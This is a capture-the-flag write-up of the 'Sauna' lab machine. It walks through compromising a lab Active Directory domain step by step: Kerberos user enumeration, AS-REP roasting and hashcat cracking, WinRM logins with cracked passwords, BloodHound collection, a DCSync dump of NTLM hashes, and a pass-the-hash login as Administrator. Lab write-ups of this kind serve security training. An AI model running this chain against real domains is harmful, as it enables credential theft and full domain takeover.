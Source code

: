 # Sauna
IP
```
10.10.10.175
```

```
53/tcp   open  domain?       syn-ack ttl 127
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-12 10:10:00Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site:
Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site:
Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127

```



LDAP search returns a user's name.

![[Pasted image 20220711221732.png]]

We found his username is `hsmith`

![[Pasted image 20220711223621.png]]

we did more user enumeration with

```
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.local /usr/share/seclists/Usernames/userlist.txt
```

we found a new user: `fsmith` and used the following command to get an AS-REP hash

```
GetNPUsers.py egotistical-bank.local/ -usersfile users -format hashcat -outputfile as-rep.hash
```

we then cracked using hashcat

```
hashcat as-rep.hash /usr/share/wordlists/rockyou.txt
```

```
fsmith
```

```
Thestrokes23
```

we logged in using evil-winrm

```
evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175
```

and found the user flag on the desktop

![[Pasted image 20220711233853.png]]

we ran winpeas and found another set of credentials

![[Pasted image 20220711235616.png]]

However, this user didn't appear to be valid, but we found a similar user and this password worked!

```
svc_loanmgr
```

```
Moneymakestheworldgoround!
```


We then used the python bloodhound ingestor to collect domain info
```
bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d Egotistical-bank.local -dc 10.10.10.175 -c All
```

We loaded the .json files into bloodhound.

Found out our `svc_loanmgr`	account has DCSync privileges.

We dumped secrets with `secretesdump.py`

```
secretsdump.py -dc-ip 10.10.10.175 egotistical-bank.local/svc_loanmgr@10.10.10.175
```

which gave the following hashes

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::                                               
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::                       
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::                       
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::                  
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:cba7484ad743db3e4f1e6feb311f44d6:::
```

We are able to login as `Administrator` using the PTH function of evil-winrm

```
evil-winrm -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```

## Root flag

![[Pasted image 20220712001536.png]]